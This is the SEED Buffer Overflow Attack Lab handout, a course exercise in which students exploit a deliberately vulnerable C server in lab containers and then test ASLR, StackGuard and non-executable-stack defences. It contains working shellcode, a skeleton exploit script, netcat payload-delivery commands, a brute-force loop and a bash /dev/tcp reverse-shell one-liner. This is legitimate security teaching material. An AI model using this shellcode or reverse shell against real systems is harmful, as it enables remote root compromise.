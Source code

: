 ===========================================
Buffer Overflow Attack Lab (Server Version)
===========================================

Overview
========

Buffer overflow is defined as the condition in which a program attempts
to write data beyond the boundary of a buffer. This vulnerability can be
used by a malicious user to alter the flow control of the program,
leading to the execution of malicious code. The objective of this lab is
for students to gain practical insights into this type of vulnerability,
and learn how to exploit the vulnerability in attacks.

In this lab, students will be given four different servers, each running
a program with a buffer-overflow vulnerability. Their task is to develop
a scheme to exploit the vulnerability and finally gain the root
privilege on these servers. In addition to the attacks, students will
also experiment with several countermeasures against buffer-overflow
attacks. Students need to evaluate whether the schemes work or not and
explain why. This lab covers the following topics:

-  Buffer overflow vulnerability and attack

-  Stack layout in a function invocation

-  Address randomization, Non-executable stack, and StackGuard

-  Shellcode. We have a separate lab on how to write shellcode from
   scratch.

**Readings and videos.** Detailed coverage of the buffer-overflow attack can be found in the
following:

-  Chapter 4 of the SEED Book, Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
   Wenliang Du. See details at `<https://www.handsonsecurity.net>`_.

-  Section 4 of the SEED Lecture at Udemy, A Hands-on Approach, by Wenliang
   Du. See details at `<https://www.handsonsecurity.net/video.html>`_.

**Lab environment.** This lab has been tested on the SEED Ubuntu 20.04 VM. You can download a pre-built
image from the SEED website, and run the SEED VM on your own computer. However, most of the SEED
labs can be conducted on the cloud, and you can follow our instruction to create a SEED VM on the cloud.

**Note for instructors.** Instructors can customize this lab by choosing values for ``L1``, ...,
``L4``. See Section 2.2for details.
Depending on the background of students and the time allocated for this
lab, instructors can also make the Level-2, Level-3, and Level-4 tasks
(or some of them) optional. The Level-1 task is sufficient to cover the
basics of the buffer-overflow attacks. Levels 2 to 4 increase the attack
difficulties. All the countermeasure tasks are based on the Level-1
task, so skipping the other levels does not affect those tasks.

Lab Environment Setup
=====================

Please download the ``Labsetup.zip`` file to your VM from the lab’s
website, unzip it, and you will get a folder called ``Labsetup``. All
the files needed for this lab are included in this folder.

Turning off Countermeasures
---------------------------

Before starting this lab, we need to make sure the address randomization
countermeasure is turned off; otherwise, the attack will be difficult.
You can do it using the following command:

::

   $ sudo /sbin/sysctl -w kernel.randomize_va_space=0

The Vulnerable Program
----------------------

The vulnerable program used in this lab is called ``stack.c``, which is
in the ``server-code`` folder. This program has a buffer-overflow
vulnerability, and your job is to exploit this vulnerability and gain
the root privilege. The code listed below has some non-essential
information removed, so it is slightly different from what you get from
the lab setup file. Below is Listing 1: vulnerable program ``stack.c``.

::

   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>

   /* Changing this size will change the layout of the stack.
    * Instructors can change this value each year, so students
    * won't be able to use the solutions from the past.
   #ifndef BUF_SIZE
   #define BUF_SIZE 100
   #endif

   int bof(char *str)
   {
       char buffer[BUF_SIZE];

       /* The following statement has a buffer overflow problem */ 
       strcpy(buffer, str);          ✰

       return 1;
   }

   int main(int argc, char **argv)
   {
       char str[517];

       int length = fread(str, sizeof(char), 517, stdin);
       bof(str);
       fprintf(stdout, "==== Returned Properly ====\n");
       return 1;
   }

The above program has a buffer overflow vulnerability. It reads data
from the standard input, and then passes the data to another buffer in
the function bof(). The original input can have a maximum length of
``517`` bytes, but the buffer in bof() is only ``BUF_SIZE`` bytes long,
which is less than ``517``. Because strcpy() does not check boundaries,
buffer overflow will occur.

The program will run on a server with the root privilege, and its
standard input will be redirected to a TCP connection between the server
and a remote user. Therefore, the program actually gets its data from a
remote user. If users can exploit this buffer overflow vulnerability,
they can get a root shell on the server.

**Compilation.** To compile the above vulnerable program, we need to turn off the
StackGuard and the non-executable stack protections using the
``-fno-stack-protector`` and ``"-z execstack"`` options. The following
is an example of the compilation command (the ``L1`` environment
variable sets the value for the ``BUF_SIZE`` constant inside
``stack.c``).

::

   $ gcc -DBUF_SIZE=$(L1) -o stack -z execstack -fno-stack-protector stack.c

We will compile the ``stack`` program into both 32-bit and 64-bit
binaries. Our pre-built Ubuntu 20.04 VM is a 64-bit VM, but it still
supports 32-bit binaries. All we need to do is to use the ``-m32``
option in the ``gcc`` command. For 32-bit compilation, we also use
``-static`` to generate a statically-linked binary, which is
self-contained and not depending on any dynamic library, because the
32-bit dynamic libraries are not installed in our containers.

The compilation commands are already provided in ``Makefile``. To
compile the code, you need to type ``make`` to execute those commands.
The variables ``L1``, ``L2``, ``L3``, and ``L4`` are set in
``Makefile``; they will be used during the compilation. After the
compilation, we need to copy the binary into the ``bof-containers``
folder, so they can be used by the containers. The following commands
conduct compilation and installation.

::

   $ make
   $ make install

**For instructors (customization).** To make the lab slightly different from the one offered in the past,
instructors can change the value for ``BUF_SIZE`` by requiring students
to compile the server code using different ``BUF_SIZE`` values. In
``Makefile``, the ``BUF_SIZE`` value is set by four variables ``L1``,
..., ``L4``. Instructors should pick the values for these variables
based on the following suggestions:

-  ``L1``: pick a number between 100 and 400

-  ``L2``: pick a number between 100 and 200

-  ``L3``: pick a number between 100 and 400

-  ``L4``: pick a number between 20 and 80; we need to keep this number
   smaller, to make this level more challenging than the previous level.

**The Server Program.** In the ``server-code`` folder, you can find a program called
``server.c``. This is the main entry point of the server. It listens to
port ``9090``. When it receives a TCP connection, it invokes the
``stack`` program, and sets the TCP connection as the standard input of
the ``stack`` program. This way, when ``stack`` reads data from
``stdin``, it actually reads from the TCP connection, i.e. the data are
provided by the user on the TCP client side. It is not necessary for
students to read the source code of ``server.c``.

Container Setup and Commands
----------------------------
Please download the Labsetup.zip file to your VM from the lab’s website, unzip it, enter the Labsetup
folder, and use the docker-compose.yml file to set up the lab environment. Detailed explanation of the
content in this file and all the involved Dockerfile can be found from the user manual, which is linked
to the website of this lab. If this is the first time you set up a SEED lab environment using containers, it is
very important that you read the user manual.

In the following, we list some of the commonly used commands related to Docker and Compose. Since
we are going to use these commands very frequently, we have created aliases for them in the .bashrc file
(in our provided SEEDUbuntu 20.04 VM).

::

   $ docker-compose build   # Build the container image
   $ docker-compose up      # Start the container
   $ docker-compose down    # Shut down the container

   // Aliases for the Compose commands above
   $ dcbuild                # Alias for: docker-compose build
   $ dcup                   # Alias for: docker-compose up
   $ dcdown                 # Alias for: docker-compose down

All the containers will be running in the background. To run commands on a container, we often need
to get a shell on that container. We first need to use the "docker ps" command to find out the ID of
the container, and then use "docker exec" to start a shell on that container. We have created aliases for
them in the .bashrc file.

::

   $ dockps         // Alias for: docker ps --format "{{.ID}} {{.Names}}"
   $ docksh <id>    // Alias for: docker exec -it <id> /bin/bash

   // The following example shows how to get a shell inside hostC
   $ dockps
   b1004832e275 hostA-10.9.0.5
   0af4ea7a3e2e hostB-10.9.0.6
   9652715c8e0a hostC-10.9.0.7

   $ docksh 96
   root@9652715c8e0a:/#

   // Note: If a docker command requires a container ID, you do not need to
   //       type the entire ID string. Typing the first few characters will
   //       be sufficient, as long as they are unique among all the containers.

If you encounter problems when setting up the lab environment, please read the “Common Problems”
section of the manual for potential solutions.


**Note.** It should be noted that before running ``"docker-compose build"`` to
build the docker images, we need to compile and copy the server code to
the ``bof-containers`` folder. This step is described in
Section 2.2.

Task 1: Get Familiar with the Shellcode
=======================================

The ultimate goal of buffer-overflow attacks is to inject malicious code
into the target program, so the code can be executed using the target
program’s privilege. Shellcode is widely used in most code-injection
attacks. Let us get familiar with it in this task.

Shellcode is typically used in code injection attacks. It is basically a piece of code that launches a shell,
and is usually written in assembly languages. In this lab, we only provide the binary version of a generic
shellcode, without explaining how it works, because it is non-trivial. If you are interested in how exactly
shellcode works, and want to write a shellcode from scratch, you can learn that from a separate SEED lab
called Shellcode Lab. Our generic shellcode is listed in the following (we only list the 32-bit version):

::

   shellcode = (
      "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
      "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
      "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
      "/bin/bash*"                                                    ➊
      "-c*"                                                           ➋
      "/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd       *"    ➌
      # The * in this line serves as the position marker        *
      "AAAA" # Placeholder for argv[0] --> "/bin/bash"
      "BBBB" # Placeholder for argv[1] --> "-c"
      "CCCC" # Placeholder for argv[2] --> the command string
      "DDDD" # Placeholder for argv[3] --> NULL
   ).encode(’latin-1’)

The shellcode runs the "/bin/bash" shell program (Line ➊), but it is given two arguments, "-c"
(Line ➋) and a command string (Line ➌). This indicates that the shell program will run the commands in the
second argument. The * at the end of these strings is only a placeholder, and it will be replaced by one byte
of 0x00 during the execution of the shellcode. Each string needs to have a zero at the end, but we cannot
put zeros in the shellcode. Instead, we put a placeholder at the end of each string, and then dynamically put
a zero in the placeholder during the execution.
If we want the shellcode to run some other commands, we just need to modify the command string
in Line ➌. However, when making changes, we need to make sure not to change the length of this string,
because the starting position of the placeholder for the argv[] array, which is right after the command
string, is hardcoded in the binary portion of the shellcode. If we change the length, we need to modify the
binary part. To keep the star at the end of this string at the same position, you can add or delete spaces.

You can find the generic shellcode in the ``shellcode`` folder. Inside,
you will see two Python programs, ``shellcode_32.py`` and
``shellcode_64.py``. They are for 32-bit and 64-bit shellcode,
respectively. These two Python programs will write the binary shellcode
to ``codefile_32`` and ``codefile_64``, respectively. You can then use
``call_shellcode`` to execute the shellcode in them.

::

   // Generate the shellcode binary 
   $ ./shellcode_32.py    --> generate codefile_32
   $ ./shellcode_64.py    --> generate codefile_64

   // Compile call_shellcode.c
   $ make                 --> generate a32.out and a64.out 

   // Test the shellcode 
   $ a32.out              --> execute the shellcode in codefile_32
   $ a64.out              --> execute the shellcode in codefile_64

**Task.** Please modify the shellcode, so you can use it to delete a file. Please
include your modified shellcode in the lab report, as well as your
screenshots.

Task 2: Level-1 Attack
======================

When we start the containers using the included ``docker-compose.yml``
file, four containers will be running, representing four levels of
difficulties. We will work on Level 1 in this task.

Server
------

Our first target runs on ``10.9.0.5`` (the port number is ``9090``), and
the vulnerable program ``stack`` is a 32-bit program. Let’s first send a
benign message to this server. We will see the following messages
printed out by the target container (the actual messages you see may be
different).

::

   // On the VM (i.e., the attacker machine)
   $ echo hello | nc 10.9.0.5 9090
   Press Ctrl+C

   // Messages printed out by the container
   server-1-10.9.0.5 | Got a connection from 10.9.0.1
   server-1-10.9.0.5 | Starting stack
   server-1-10.9.0.5 | Input size: 6
   server-1-10.9.0.5 | Frame Pointer (ebp) inside bof():  0xffffdb88    ✰
   server-1-10.9.0.5 | Buffer's address inside bof():     0xffffdb18    ✰
   server-1-10.9.0.5 | ==== Returned Properly ====

The server will accept up to ``517`` bytes of the data from the user,
and that will cause a buffer overflow. Your job is to construct your
payload to exploit this vulnerability. If you save your payload in a
file, you can send the payload to the server using the following
command.

::

   $ cat <file> | nc 10.9.0.5 9090

If the server program returns, it will print out
``"Returned Properly"``. If this message is not printed out, the
``stack`` program has probably crashed. The server will still keep
running, taking new connections.

For this task, two pieces of information essential for buffer-overflow
attacks are printed out as hints to students: the value of the frame
pointer and the address of the buffer (lines marked by ). The frame
point register called ``ebp`` for the x86 architecture and ``rbp`` for
the x64 architecture. You can use these two pieces of information to
construct your payload.

**Added randomness.** We have added a little bit of randomness in the program, so different
students are likely to see different values for the buffer address and
frame pointer. The values only change when the container restarts, so as
long as you keep the container running, you will see the same numbers
(the numbers seen by different students are still different). This
randomness is different from the address-randomization countermeasure.
Its sole purpose is to make students’ work a little bit different.

Writing Exploit Code and Launching Attack
-----------------------------------------

To exploit the buffer-overflow vulnerability in the target program, we
need to prepare a payload, and save it inside a file (we will use
``badfile`` as the file name in this document). We will use a Python
program to do that. We provide a skeleton program called ``exploit.py``,
which is included in the lab setup file. The code is incomplete, and
students need to replace some of the essential values in the code.
Listing 2: The skeleton exploit code (``exploit.py``).

::

   #!/usr/bin/python3
   import sys

   # You can copy and paste the shellcode from Task 1
   shellcode = (
     ""                     # ✩ Need to change ✩
   ).encode('latin-1')

   # Fill the content with NOP's
   content = bytearray(0x90 for i in range(517))

   ##################################################################
   # Put the shellcode somewhere in the payload
   start =  0               # ✩ Need to change ✩
   content[start:start + len(shellcode)] = shellcode

   # Decide the return address value 
   # and save it somewhere in the payload
   ret    = 0xAABBCCDD      # ✩ Need to change ✩
   offset = 0               # ✩ Need to change ✩

   # Use 4 for 32-bit address and 8 for 64-bit address
   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Write the content to a file
   with open('badfile', 'wb') as f:
     f.write(content)

After you finish the above program, run it. This will generate the
contents for ``badfile``. Then feed it to the vulnerable server. If your
exploit is implemented correctly, the command you put inside your
shellcode will be executed. If your command generates some outputs, you
should be able to see them from the container window. Please provide
proofs to show that you can successfully get the vulnerable server to
run your commands.

::

   $./exploit.py   // create the badfile
   $ cat badfile | nc 10.9.0.5 9090

**Reverse shell.** We are not interested in running some pre-determined commands. We want
to get a root shell on the target server, so we can type any command we
want. Since we are on a remote machine, if we simply get the server to
run ``/bin/sh``, we won’t be able to control the shell program. Reverse
shell is a typical technique to solve this problem.
Section 10 provides detailed instructions on
how to run a reverse shell. Please modify the command string in your
shellcode, so you can get a reverse shell on the target server. Please
include screenshots and explanation in your lab report.

Task 3: Level-2 Attack
======================

In this task, we are going to increase the difficulty of the attack a
little bit by not displaying an essential piece of the information. Our
target server is ``10.9.0.6`` (the port number is still ``9090``, and
the vulnerable program is still a 32-bit program). Let’s first send a
benign message to this server. We will see the following messages
printed out by the target container.

::

   // On the VM (i.e., the attacker machine)
   $ echo hello | nc 10.9.0.6 9090
   Ctrl+C

   // Messages printed out by the container
   server-2-10.9.0.6 | Got a connection from 10.9.0.1
   server-2-10.9.0.6 | Starting stack
   server-2-10.9.0.6 | Input size: 6
   server-2-10.9.0.6 | Buffer's address inside bof():     0xffffda3c
   server-2-10.9.0.6 | ==== Returned Properly ====

As you can see, the server only gives out one hint, the address of the
buffer; it does not reveal the value of the frame pointer. This means,
the size of the buffer is unknown to you. That makes exploiting the
vulnerability more difficult than the Level-1 attack. Although the
actual buffer size can be found in ``Makefile``, you are not allowed to
use that information in the attack, because in the real world, it is
unlikely that you will have this file. To simplify the task, we do
assume that the the range of the buffer size is known. Another fact that
may be useful to you is that, due to the memory alignment, the value
stored in the frame pointer is always multiple of four (for 32-bit
programs).

::

   Range of the buffer size (in bytes): [100, 300]

Your job is to construct one payload to exploit the buffer overflow
vulnerability on the server, and get a root shell on the target server
(using the reverse shell technique). Please be noted, you are only
allowed to construct one payload that works for any buffer size within
this range. You will not get all the credits if you use the brute-force
method, i.e., trying one buffer size each time. The more you try, the
easier it will be detected and defeated by the victim. That’s why
minimizing the number of trials is important for attacks. In your lab
report, you need to describe your method, and provide evidences.

Task 4: Level-3 Attack
======================

In the previous tasks, our target servers are 32-bit programs. In this
task, we switch to a 64-bit server program. Our new target is
``10.9.0.7``, which runs the 64-bit version of the ``stack`` program.
Let’s first send a hello message to this server. We will see the
following messages printed out by the target container.

::

   // On the VM (i.e., the attacker machine)
   $ echo hello | nc 10.9.0.7 9090
   Ctrl+C

   // Messages printed out by the container
   server-3-10.9.0.7 | Got a connection from 10.9.0.1
   server-3-10.9.0.7 | Starting stack
   server-3-10.9.0.7 | Input size: 6
   server-3-10.9.0.7 | Frame Pointer (rbp) inside bof():  0x00007fffffffe1b0
   server-3-10.9.0.7 | Buffer's address inside bof():     0x00007fffffffe070
   server-3-10.9.0.7 | ==== Returned Properly ====

You can see the values of the frame pointer and buffer’s address become
8 bytes long (instead of 4 bytes in 32-bit programs). Your job is to
construct your payload to exploit the buffer overflow vulnerability of
the server. You ultimate goal is to get a root shell on the target
server. You can use the shellcode from Task 1, but you need to use the
64-bit version of the shellcode.

**Challenges.** Compared to buffer-overflow attacks on 32-bit machines, attacks on
64-bit machines is more difficult. The most difficult part is the
address. Although the x64 architecture supports 64-bit address space,
only the address from ``0x00`` through ``0x00007FFFFFFFFFFF`` is
allowed. That means for every address (8 bytes), the highest two bytes
are always zeros. This causes a problem.

In our buffer-overflow attacks, we need to store at least one address in
the payload, and the payload will be copied into the stack via
``strcpy()``. We know that the ``strcpy()`` function will stop copying
when it sees a zero. Therefore, if a zero appears in the middle of the
payload, the content after the zero cannot be copied into the stack. How
to solve this problem is the most difficult challenge in this attack. In
your report, you need to describe how you solve this problem.

Task 5: Level-4 Attack
======================

The server in this task is similar to that in Level 3, except that the
buffer size is much smaller. From the following printout, you can see
the distance between the frame pointer and the buffer’s address is only
about 32 bytes (the actual distance in the lab may be different). In
Level 3, the distance is much larger. Your goal is the same: get the
root shell on this server. The server still takes in 517 byte of input
data from the user.

::

   server-4-10.9.0.8 | Got a connection from 10.9.0.1
   server-4-10.9.0.8 | Starting stack
   server-4-10.9.0.8 | Input size: 6
   server-4-10.9.0.8 | Frame Pointer (rbp) inside bof():  0x00007fffffffe1b0
   server-4-10.9.0.8 | Buffer's address inside bof():     0x00007fffffffe190
   server-4-10.9.0.8 | ==== Returned Properly ====

Task 6: Experimenting with the Address Randomization
====================================================

At the beginning of this lab, we turned off one of the countermeasures,
the Address Space Layout Randomization (ASLR). In this task, we will
turn it back on, and see how it affects the attack. You can run the
following command on your VM to enable ASLR. This change is global, and
it will affect all the containers running inside the VM.

::

   $ sudo /sbin/sysctl -w kernel.randomize_va_space=2

Please send a ``hello`` message to the Level 1 and Level 3 servers, and
do it multiple times. In your report, please report your observation,
and explain why ASLR makes the buffer-overflow attack more difficult.

**Defeating the 32-bit randomization.** It was reported that on 32-bit 
Linux machines, only 19 bites can be used
for address randomization. That is not enough, and we can easily hit the
target if we run the attack for sufficient number of times. For 64-bit
machines, the number of bits used for randomization is significantly
increased.

In this task, we will give it a try on the 32-bit Level 1 server. We use
the brute-force approach to attack the server repeatedly, hoping that
the address we put in our payload can eventually be correct. We will use
the payload from the Level-1 attack. You can use the following shell
script to run the vulnerable program in an infinite loop. If you get a
reverse shell, the script will stop; otherwise, it will keep running. If
you are not so unlucky, you should be able to get a reverse shell within
10 minutes.

.. code:: bash

   #!/bin/bash

   SECONDS=0
   value=0
   while true; do
     value=$(( $value + 1 ))
     duration=$SECONDS
     min=$(($duration / 60))
     sec=$(($duration % 60))
     echo "$min minutes and $sec seconds elapsed."
     echo "The program has been running $value times so far."
     cat badfile | nc 10.9.0.5 9090
   done

Tasks 7: Experimenting with Other Countermeasures
=================================================

Task 7.a: Turn on the StackGuard Protection
-------------------------------------------

Many compiler, such as ``gcc``, implements a security mechanism called
*StackGuard* to prevent buffer overflows. In the presence of this
protection, buffer overflow attacks will not work. The provided
vulnerable programs were compiled without enabling the StackGuard
protection. In this task, we will turn it on and see what will happen.

Please go to the ``server-code`` folder, remove the
``-fno-stack-protector`` flag from the ``gcc`` flag, and compile
``stack.c``. We will only use ``stack-L1``, but instead of running it in
a container, we will directly run it from the command line. Let’s create
a file that can cause buffer overflow, and then feed the content of the
file ``stack-L1``. Please describe and explain your observations.

::

   $ ./stack-L1 < badfile 

Task 7.b: Turn on the Non-executable Stack Protection
-----------------------------------------------------

Operating systems used to allow executable stacks, but this has now changed: In Ubuntu OS, the binary
images of programs (and shared libraries) must declare whether they require executable stacks or not, i.e.,
they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide
whether to make the stack of this running program executable or non-executable. This marking is done
automatically by the ``gcc``, which by default makes stack non-executable. We can specifically make it nonexecutable using the "-z noexecstack" flag in the compilation. In our previous tasks, we used "-z
execstack" to make stacks executable.

In this task, we will make the stack non-executable. We will do this experiment in the ``shellcode``
folder. The ``call_shellcode`` program puts a copy of shellcode on the stack, and then executes the code
from the stack. Please recompile ``call_shellcode.c`` into ``a32.out`` and ``a64.out``, without the "-z
execstack" option. Run them, describe and explain your observations.

**Defeating the non-executable stack countermeasure.** It should be noted that non-executable stack only
makes it impossible to run shellcode on the stack, but it does not prevent buffer-overflow attacks, because
there are other ways to run malicious code after exploiting a buffer-overflow vulnerability. The return-tolibc attack is an example. We have designed a separate lab for that attack. If you are interested, please see
our Return-to-Libc Attack Lab for details.

Guidelines on Reverse Shell
===========================

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes
from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.

A commonly used program by attackers is netcat, which, if running with the "-l" option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out
whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus
only on the first line).

::

   Attacker(10.0.2.6):$ nc -nv -l 9090     ➙ Waiting for reverse shell
   Listening on 0.0.0.0 9090
   Connection received on 10.0.2.5 39452
   Server(10.0.2.5):$            ➙  Reverse shell from 10.0.2.5.
   Server(10.0.2.5):$ ifconfig
   ifconfig
   enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
   inet 10.0.2.5 netmask 255.255.255.0 broadcast 10.0.2.255
   ...

The above ``nc`` command will block, waiting for a connection. We now directly run the following bash
program on the Server machine (10.0.2.5) to emulate what attackers would run after compromising the
server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating
that the shell is running on the Server machine; we can type the ``ifconfig`` command to verify that the IP
address is indeed 10.0.2.5, the one belonging to the Server machine. Here is the bash command:

::

   Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1

The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

-  "/bin/bash -i": The option i stands for interactive, meaning that the shell must be interactive
   (must provide a shell prompt).

-  "> /dev/tcp/10.0.2.6/9090": This causes the output device (stdout) of the shell to be
   redirected to the TCP connection to 10.0.2.6’s port 9090. In Unix systems, stdout’s file
   descriptor is 1.

-  "0<&1": File descriptor 0 represents the standard input device (stdin). This option tells the system
   to use the standard output device as the stardard input device. Since stdout is already redirected to
   the TCP connection, this option basically indicates that the shell program will get its input from the
   same TCP connection.

-  "2>&1": File descriptor 2 represents the standard error stderr. This causes the error output to be
   redirected to stdout, which is the TCP connection.

In summary, the command "/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1" starts
a bash shell on the server machine, with its input coming from a TCP connection, and output going to the
same TCP connection. In our experiment, when the bash shell command is executed on 10.0.2.5, it
connects back to the netcat process started on 10.0.2.6. This is confirmed via the "Connection
from 10.0.2.5 ..." message displayed by netcat.

Submission
==========
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.